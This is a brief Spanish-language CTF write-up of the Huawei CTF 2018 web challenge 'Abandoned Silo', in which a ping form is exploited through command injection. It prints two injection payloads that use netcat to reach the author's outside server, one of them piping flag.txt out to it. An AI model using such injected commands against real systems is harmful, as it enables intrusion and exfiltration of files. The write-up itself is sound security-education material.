


# Huawei CTF 2018 - Reto 1 - ABANDONED SILO
### Categoría: Web

Este reto nos muestra un formulario que nos permite hacer `ping` a la ip que le introduzcamos a través de un parámetro.
Como pista nos indican que la flag se encuentra en el archivo `flag.txt`.



Probamos a inyectar un comando utilizando *netcat* para establecer una conexión reversa `127.0.0.1;nc reverse.sistec.es 8080`.

Verificamos que la conexión reversa se establece, la usamos para extraer el contenido del archivo `flag.txt`
```bash
127.0.0.1;cat flag.txt|nc reverse.sistec.es 8080
```

Recibimos en nuestro servidor la conexión con la flag.


